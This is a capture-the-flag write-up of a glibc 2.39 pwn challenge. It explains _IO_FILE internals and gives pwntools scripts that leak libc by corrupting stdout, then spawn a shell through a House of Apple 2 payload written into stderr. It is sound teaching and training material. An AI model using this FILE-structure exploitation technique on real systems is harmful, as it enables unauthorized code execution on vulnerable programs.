





# TL;DR

A really interesting challenge where we exploit `_IO_FILE` using **House of Apple 2** by overlapping three structures in a single buffer. (In my opinion, the hardest pwn challenge in HTB Cyber Apocalypse 2026).

# Analysis

We are given a single binary along with **`glibc 2.39`** and its matching `ld`.

```text {title="checksec" lineNos=false}
gef➤  checksec
[+] checksec for '/home/jzrn_/PWN/HTB/the_emptiness_machine/challenge/the_emptiness_machine'
Canary                        : ✘
NX                            : ✓
PIE                           : ✓
Fortify                       : ✘
RelRO                         : Full
```

Generally speaking, `NX` makes stack **non-executable**, `PIE` randomizes the base addresses, and `Full RelRO` makes the `.got` section read-only.

# Reverse

Binary Ninja reveals only one function:

```c{title="binary ninja" lineNos=false hl_lines=[6 8]}
004011a9    int32_t main(int32_t argc, char** argv, char** envp)
004011c0        setbuf(fp: stdin, buf: nullptr)
004011d4        setbuf(fp: stdout, buf: nullptr)
004011e3        puts(str: &data_402008)
004011f7        printf(format: &data_402658)
00401215        __isoc99_scanf(format: "%40s", stdout) // can leak address
00401229        printf(format: &data_402748)
0040124e        return __isoc99_scanf(format: "%224s", stderr) // exactly the size of _IO_FILE
```

Huh, only one little function. This challenge will either be the easiest one or the literal definition of **suffering** (spoiler: suffering).

We can overwrite `stdout` and `stderr` - `_IO_FILE` structures, to be precise. There are many ways to achieve code execution with file structures, but our target runs `glibc 2.39`, so most legacy techniques are patched.

# Quick Lecture Time

`_IO_FILE` is basically glibc's wrapper around file descriptors designed to optimize I/O operations.

[pwn.college](https://pwn.college/software-exploitation/file-struct-exploits/) has really good lectures on the basics. Overall, raw file descriptors are very slow because the kernel has to perform heavy context switches for every syscall.

`_IO_FILE` structures solve this by buffering operations to invoke syscalls as rarely as possible. For instance, when you `fopen() a file`, it creates an ``_IO_FILE`` structure and reads data into an internal buffer.
When you call `fread()`, it retrieves data from that buffer instead of making a direct `read()` syscall. Once you consume all `n` bytes, it fetches the next chunk.
The same logic applies to `fwrite()`, `printf()`, `stdin`, `stdout`, and `stderr`.

Example of a read buffer layout:



```c{title="libio/bits/types/struct_FILE.h" lineNos=true hl_lines=[9 10 11 12 13 14 15 16]}
/* The tag name of this struct is _IO_FILE to preserve historic
   C++ mangled names for functions taking FILE* arguments.
   That name should not be used in new code.  */
struct _IO_FILE
{
  int _flags;		/* High-order word is _IO_MAGIC; rest is flags. */ // _IO_MAGIC IS 0xfbad

  /* The following pointers correspond to the C++ streambuf protocol. */
  char *_IO_read_ptr;	/* Current read pointer */
  char *_IO_read_end;	/* End of get area. */
  char *_IO_read_base;	/* Start of putback+get area. */
  char *_IO_write_base;	/* Start of put area. */
  char *_IO_write_ptr;	/* Current put pointer. */
  char *_IO_write_end;	/* End of put area. */
  char *_IO_buf_base;	/* Start of reserve area. */
  char *_IO_buf_end;	/* End of reserve area. */

  /* The following fields are used to support backing up and undo. */
  char *_IO_save_base; /* Pointer to start of non-current get area. */
  char *_IO_backup_base;  /* Pointer to first valid character of backup area */
  char *_IO_save_end; /* Pointer to end of non-current get area. */

  struct _IO_marker *_markers;

  struct _IO_FILE *_chain; // <-- used in techniques like FSOP

  int _fileno;
  int _flags2;
  __off_t _old_offset; /* This used to be _offset but it's too small.  */

  /* 1+column number of pbase(); 0 is unknown. */
  unsigned short _cur_column;
  signed char _vtable_offset;
  char _shortbuf[1];

  _IO_lock_t *_lock;
#ifdef _IO_USE_OLD_IO_FILE
};

struct _IO_FILE_complete
{
  struct _IO_FILE _file;
#endif
  __off64_t _offset;
  /* Wide character stream stuff.  */
  struct _IO_codecvt *_codecvt;
  struct _IO_wide_data *_wide_data;
  struct _IO_FILE *_freeres_list;
  void *_freeres_buf;
  size_t __pad5;
  int _mode;
  /* Make sure we don't get into trouble again.  */
  char _unused2[15 * sizeof (int) - 4 * sizeof (void *) - sizeof (size_t)];
};
```

By default, `_IO_USE_OLD_IO_FILE` is not defined, so you can ignore `_IO_FILE_complete`. However, `stdin`, `stdout`, and `stderr` actually use _IO_FILE_plus instead of plain `_IO_FILE`. 
The only difference is that `_IO_FILE_plus` appends a `vtable` pointer at the end.

```c{title="libio/libioP.h" lineNos=true hl_lines=[9]}
/* We always allocate an extra word following an _IO_FILE.
   This contains a pointer to the function jump table used.
   This is for compatibility with C++ streambuf; the word can
   be used to smash to a pointer to a virtual function table. */

struct _IO_FILE_plus
{
  FILE file; // _IO_FILE
  const struct _IO_jump_t *vtable;
};
```

Here is how these structures look inside GDB for our target binary:

```c{title="GDB/GEF" hl_lines=[29 43]}
gef➤  ptype /o struct _IO_FILE
/* offset      |    size */  type = struct _IO_FILE {
/*      0      |       4 */    int _flags;
/* XXX  4-byte hole      */
/*      8      |       8 */    char *_IO_read_ptr;
/*     16      |       8 */    char *_IO_read_end;
/*     24      |       8 */    char *_IO_read_base;
/*     32      |       8 */    char *_IO_write_base;
/*     40      |       8 */    char *_IO_write_ptr;
/*     48      |       8 */    char *_IO_write_end;
/*     56      |       8 */    char *_IO_buf_base;
/*     64      |       8 */    char *_IO_buf_end;
/*     72      |       8 */    char *_IO_save_base;
/*     80      |       8 */    char *_IO_backup_base;
/*     88      |       8 */    char *_IO_save_end;
/*     96      |       8 */    struct _IO_marker *_markers;
/*    104      |       8 */    struct _IO_FILE *_chain; // address to the next _IO_FILE. Used in FSOP
/*    112      |       4 */    int _fileno; // file descriptor
/*    116: 0   |       4 */    int _flags2 : 24;
/*    119      |       1 */    char _short_backupbuf[1];
/*    120      |       8 */    __off_t _old_offset;
/*    128      |       2 */    unsigned short _cur_column;
/*    130      |       1 */    signed char _vtable_offset;
/*    131      |       1 */    char _shortbuf[1];
/* XXX  4-byte hole      */
/*    136      |       8 */    _IO_lock_t *_lock;
/*    144      |       8 */    __off64_t _offset;
/*    152      |       8 */    struct _IO_codecvt *_codecvt;
/*    160      |       8 */    struct _IO_wide_data *_wide_data; // <-- remember this
/*    168      |       8 */    struct _IO_FILE *_freeres_list;
/*    176      |       8 */    void *_freeres_buf;
/*    184      |       8 */    struct _IO_FILE **_prevchain;
/*    192      |       4 */    int _mode;
/*    196      |       4 */    int _unused3;
/*    200      |       8 */    __uint64_t _total_written;
/*    208      |       8 */    char _unused2[8];

                               /* total size (bytes):  216 */
                             }
gef➤  ptype /o struct _IO_FILE_plus
/* offset      |    size */  type = struct _IO_FILE_plus {
/*      0      |     216 */    FILE file; // _IO_FILE
/*    216      |       8 */    const struct _IO_jump_t *vtable; // and here's our vtable

                               /* total size (bytes):  224 */
                             }
```

# Leakage

From reversing, we know that we can overwrite up to 40 bytes of `stdout`. Looking at the structure offsets, 40 bytes allows us to overwrite `_flags`, `_IO_read_ptr`, `_IO_read_end`, `_IO_read_base`, and the `_IO_write_base`.

We can ignore the read pointers and fill them with zeroes. However, if we corrupt `_IO_write_base`, glibc will flush unwritten internal data, leaking libc addresses. Since `scanf()` appends a trailing null byte (`\x00`),
we can leverage it to overwrite just the least significant byte of `_IO_write_base`.

Let's construct the leak script:

```python{title="exploit.py" lineNos=true}
from pwn import *

# context.terminal = ['zellij', 'action', 'new-pane', '-d', 'right', '--']
context.log_level = 'debug'
context.arch = 'amd64'
context.endian = 'little'

p = process('./the_emptiness_machine')
# p = gdb.debug('./the_emptiness_machine', aslr=True, gdbscript="""
# b main
# c
# """)

# flags active: _IO_IS_APPENDING and _IO_CURRENTLY_PUTTING
payload = p64(0xfbad1800) # magic + flag
payload += p64(0) # _IO_read_ptr
payload += p64(0) # _IO_read_end
payload += p64(0) # _IO_read_base
# scanf() will append \x00 and overwrite one byte of _IO_write_base

p.readuntil(b'Rin\'s interaction: ')
p.writeline(payload)
p.readall()
```

Here is the debug output:

```text{title="output" hl_lines=[8]}
[DEBUG] Sent 0x21 bytes:
    00000000  00 18 ad fb  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    00000010  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    00000020  0a                                                  │·│
    00000021
[▆] Receiving all data: 287B
[DEBUG] Received 0x11f bytes:
    00000000  44 46 e0 cc  07 7f 00 00  00 00 00 00  00 00 00 00  │DF··│····│····│····│ <-- suspiciously resembles an address
    00000010  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    00000020  00 00 00 00  00 00 00 00  e0 38 e0 cc  07 7f 00 00  │····│····│·8··│····│
    00000030  01 00 00 00  00 00 00 00  ff ff ff ff  ff ff ff ff  │····│····│····│····│
    00000040  00 00 00 0a  5b f0 9d 98  9a f0 9d 98  b6 f0 9d 98  │····│[···│····│····│
    00000050  a3 f0 9d 98  a5 f0 9d 98  b6 f0 9d 98  a6 f0 9d 98  │····│····│····│····│
    00000060  a5 20 f0 9d  98 9d f0 9d  98 b0 f0 9d  98 aa f0 9d  │· ··│····│····│····│
    00000070  98 a4 f0 9d  98 a6 5d 3a  20 f0 9d 98  8e f0 9d 98  │····│··]:│ ···│····│
    00000080  a2 f0 9d 98  b7 f0 9d 98  a6 20 f0 9d  98 b6 f0 9d  │····│····│· ··│····│
    00000090  98 b1 20 f0  9d 98 b8 f0  9d 98 a9 f0  9d 98 b0 20  │·· ·│····│····│··· │
    000000a0  f0 9d 98 90  20 f0 9d 98  a2 f0 9d 98  ae 20 f0 9d  │····│ ···│····│· ··│
    000000b0  98 a7 f0 9d  98 b0 f0 9d  98 b3 20 f0  9d 98 b8 f0  │····│····│·· ·│····│
    000000c0  9d 98 a9 f0  9d 98 b0 20  f0 9d 98 ba  f0 9d 98 b0  │····│··· │····│····│
    000000d0  f0 9d 98 b6  20 f0 9d 98  b8 f0 9d 98  a2 f0 9d 98  │····│ ···│····│····│
    000000e0  af f0 9d 98  b5 f0 9d 98  a6 f0 9d 98  a5 20 f0 9d  │····│····│····│· ··│
    000000f0  98 ae f0 9d  98 a6 20 f0  9d 98 b5 f0  9d 98 b0 20  │····│·· ·│····│··· │
    00000100  f0 9d 98 a3  f0 9d 98 a6  2e 2e 0a 0a  52 69 6e 27  │····│····│..··│Rin'│
    00000110  73 20 69 6e  74 65 72 61  63 74 69 6f  6e 3a 20     │s in│tera│ctio│n: │
    0000011f
```

We see bytes that clearly represent a libc pointer. Let's parse and save it:

```python
p.readuntil(b'Rin\'s interaction: ')
p.writeline(payload)
address = p.read(8)

print(hex(u64(address)))
```

The output gives us something like `0x7fcf7d604644`. We now have a solid libc leak to base our offsets on!

# Code Execution

Shotout to [this resource](https://xz.aliyun.com/news/16212) - it was invaluable for understanding the mechanics.

Since our target runs `glibc 2.39`, we cannot simply overwrite `vtable` due to `IO_validate_vtable()` checks. Instead, we use **House of Apple 2**.

How does House of Apple 2 work? Let me break it down:



When a program calls `exit()`, glibc invokes `_IO_flush_all_lockp()`, which eventually calls `_IO_wfile_overflow()`. From there, it triggers `__doallocate()` via the wide vtable,
passing our `_IO_FILE` pointer as the first argument (`RDI`). Since glibc 2.24, primary `vtable` modifications are validated, but `_wide_vtable` within `_IO_wide_data` remains unvalidated.

To trigger this path successfully, we must satisfy the following conditions:

1. In `fp->_flags`, bit `0x0008` (`_IO_NO_WRITES`) must be cleared.
2. In `fp->_flags2`, bit `0x08` (`_IO_FLAGS2_USER_WBUF`) must be cleared.
3. `fp->_lock` must point to accessible memory initialized to zeroes.
4. `fp->_mode` must be **greater than 0**.
5. `fp->_wide_data->_IO_write_ptr` > `fp->_wide_data->_IO_write_base`.
6. `fp->_wide_data->_IO_buf_base` must be `NULL`.
7. `fp->vtable` must point to a valid vtable (e.g., `_IO_wfile_jumps`).
8. `fp->_wide_data` must point to our controlled `_wide_data` buffer.
9. `fp->_wide_data->_wide_vtable` must point to our controlled vtable, with offset `+0x68` (`__doallocate`) overwritten with `system()`.



Recalling that `_IO_FILE_plus` is 224 bytes long, our second `scanf()` call lets us write **exactly 224 bytes**. But how do we fit `_IO_FILE`, `_wide_data`, and `_wide_vtable` without extra heap/stack allocations?
We overlap all three structures inside the 224-byte `_IO_2_1_stderr_` buffer!

By setting `_wide_data` to `stderr - 0x10` and `_wide_vtable` to `stderr`, all conditions align cleanly within the single structure:



Now we know everything we need! The final step is calculating the offsets.

In GDB/GEF, I inspected `main` to place a breakpoint right after the leak step:

```text{title="GDB/GEF" lineNos=false hl_lines=[30 31]}
gef➤  disas main
Dump of assembler code for function main:
   0x00000000000011a9 <+0>:     endbr64
   0x00000000000011ad <+4>:     push   rbp
   0x00000000000011ae <+5>:     mov    rbp,rsp
   0x00000000000011b1 <+8>:     mov    rax,QWORD PTR [rip+0x2e78]        # 0x4030 <stdin@GLIBC_2.2.5>
   0x00000000000011b8 <+15>:    mov    esi,0x0
   0x00000000000011bd <+20>:    mov    rdi,rax
   0x00000000000011c0 <+23>:    call   0x1090 <setbuf@plt>
   0x00000000000011c5 <+28>:    mov    rax,QWORD PTR [rip+0x2e54]        # 0x4020 <stdout@GLIBC_2.2.5>
   0x00000000000011cc <+35>:    mov    esi,0x0
   0x00000000000011d1 <+40>:    mov    rdi,rax
   0x00000000000011d4 <+43>:    call   0x1090 <setbuf@plt>
   0x00000000000011d9 <+48>:    lea    rax,[rip+0xe28]        # 0x2008
   0x00000000000011e0 <+55>:    mov    rdi,rax
   0x00000000000011e3 <+58>:    call   0x1080 <puts@plt>
   0x00000000000011e8 <+63>:    lea    rax,[rip+0x1469]        # 0x2658
   0x00000000000011ef <+70>:    mov    rdi,rax
   0x00000000000011f2 <+73>:    mov    eax,0x0
   0x00000000000011f7 <+78>:    call   0x10a0 <printf@plt>
   0x00000000000011fc <+83>:    mov    rax,QWORD PTR [rip+0x2e1d]        # 0x4020 <stdout@GLIBC_2.2.5>
   0x0000000000001203 <+90>:    mov    rsi,rax
   0x0000000000001206 <+93>:    lea    rax,[rip+0x1530]        # 0x273d
   0x000000000000120d <+100>:   mov    rdi,rax
   0x0000000000001210 <+103>:   mov    eax,0x0
   0x0000000000001215 <+108>:   call   0x10b0 <__isoc99_scanf@plt>
   0x000000000000121a <+113>:   lea    rax,[rip+0x1527]        # 0x2748
   0x0000000000001221 <+120>:   mov    rdi,rax
   0x0000000000001224 <+123>:   mov    eax,0x0
   0x0000000000001229 <+128>:   call   0x10a0 <printf@plt>
   0x000000000000122e <+133>:   mov    rax,QWORD PTR [rip+0x2e0b]        # 0x4040 <stderr@GLIBC_2.2.5>
   0x0000000000001235 <+140>:   mov    rsi,rax
   0x0000000000001238 <+143>:   lea    rax,[rip+0x15e6]        # 0x2825
   0x000000000000123f <+150>:   mov    rdi,rax
   0x0000000000001242 <+153>:   mov    eax,0x0
   0x0000000000001247 <+158>:   call   0x10b0 <__isoc99_scanf@plt>
   0x000000000000124c <+163>:   nop
   0x000000000000124d <+164>:   pop    rbp
   0x000000000000124e <+165>:   ret
End of assembler dump.
```

I placed a breakpoint at `*main+133`:

```python{title="exploit.py" lineNos=true}
from pwn import *

context.terminal = ['zellij', 'action', 'new-pane', '-d', 'right', '--']
context.log_level = 'debug'
context.arch = 'amd64'
context.endian = 'little'

# p = process('./the_emptiness_machine')
p = gdb.debug('./the_emptiness_machine', aslr=True, gdbscript="""
b *main+133
c
""")

payload = p64(0xfbad1800) # magic + flag
payload += p64(0) # _IO_read_ptr
payload += p64(0) # _IO_read_end
payload += p64(0) # _IO_read_base
# scanf() will append \x00 and overwrite one byte of _IO_write_base

p.readuntil(b'Rin\'s interaction: ')
p.writeline(payload)
address = p.read(8)

print(hex(u64(address)))
p.interactive()
```

Here is how I calculated the required offsets:

```c
───────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "the_emptiness_m", stopped 0x5608c3b7e22e in main (), reason: BREAKPOINT
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x5608c3b7e22e → main()
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
(remote) gef➤  set $leak = 0x7f0f35204644 // from output
(remote) gef➤  p &_IO_wfile_jumps
$1 = (<data variable, no debug info> *) 0x7f0f35202228 <_IO_wfile_jumps>
(remote) gef➤  p $leak - 0x7f0f35202228
$3 = 0x241c    // offset to _IO_wfile_jumps
(remote) gef➤  p &system
$8 = (<text variable, no debug info> *) 0x7f0f35058750 <system>
(remote) gef➤  p $leak - 0x7f0f35058750
$9 = 0x1abef4  // offset to system
(remote) gef➤  p &_IO_2_1_stderr_
$4 = (<data variable, no debug info> *) 0x7f0f352044e0 <_IO_2_1_stderr_>
(remote) gef➤  p $leak - 0x7f0f352044e0
$5 = 0x164     // offset to _wide_vtable (and stderr)
(remote) gef➤  p 0x164 + 0x10
$7 = 0x174     // offset to _wide_data
(remote) gef➤
```

> And also offset for `_lock` - `address + 0xa0`

And the final exploit script:

```python{title="exploit.py" lineNos=true}
from pwn import *

SYSTEM_OFFSET = 0x1abef4
VTABLE_OFFSET = 0x241c
WIDE_DATA_OFFSET = 0x174
WIDE_VTABLE_OFFSET = 0x164

# context.terminal = ['zellij', 'action', 'new-pane', '-d', 'right', '--']
# context.log_level = 'debug'
context.arch = 'amd64'
context.endian = 'little'

# p = remote('YOUR_IP', YOUR_PORT)
p = process('./the_emptiness_machine')
# p = gdb.debug('./the_emptiness_machine', aslr=True, gdbscript="""
# b main
# b _IO_flush_all
# b system
# c
# """)

# leaking address
payload = p64(0xfbad1800) # magic + flag
payload += p64(0)*3 # clear 3 read pointers; scanf() zero-terminator overwrites LSB of _IO_write_base

p.readuntil(b'Rin\'s interaction: ')
p.writeline(payload)
address = p.read(8)

# calculating address
system = p64(u64(address) - SYSTEM_OFFSET)
vtable = p64(u64(address) - VTABLE_OFFSET)
wide_data = p64(u64(address) - WIDE_DATA_OFFSET)
wide_vtable = p64(u64(address) - WIDE_VTABLE_OFFSET)

# constructing payload for code execution
payload = b'e=1;sh\x00'.ljust(8, b'\x00') # 0
payload += p64(0) # 8
payload += p64(1) # 16
payload += b'\x00'*8 # 24
payload += p64(0) # 32
payload += b'\x00'*8 # 40
payload += b'\x00'*8 # 48
payload += b'\x00'*8 # 56
payload += b'\x00'*8 # 64
payload += b'\x00'*8 # 72
payload += b'\x00'*8 # 80
payload += b'\x00'*8 # 88
payload += b'\x00'*8 # 96
payload += system # 104
payload += p64(0) # 112
payload += b'\x00'*8 # 120
payload += b'\x00'*8 # 128
payload += p64(u64(address) + 0xa0) # 136
payload += b'\x00'*8 # 144
payload += b'\x00'*8 # 152
payload += wide_data # 160
payload += b'\x00'*8 # 168
payload += b'\x00'*8 # 176
payload += b'\x00'*8 # 184
payload += p64(1) # 192
payload += b'\x00'*8 # 200
payload += wide_vtable # 208
payload += vtable # 216

p.readuntil(b'Rin\'s interaction: ')
p.writeline(payload)

p.interactive()
```

> The leak step can theoretically fail if the randomized address contains whitespace bytes (like `\x20`, `\x09`, `\x0a`) that `scanf()` interprets as delimiters, but the probability of that occurring is low.


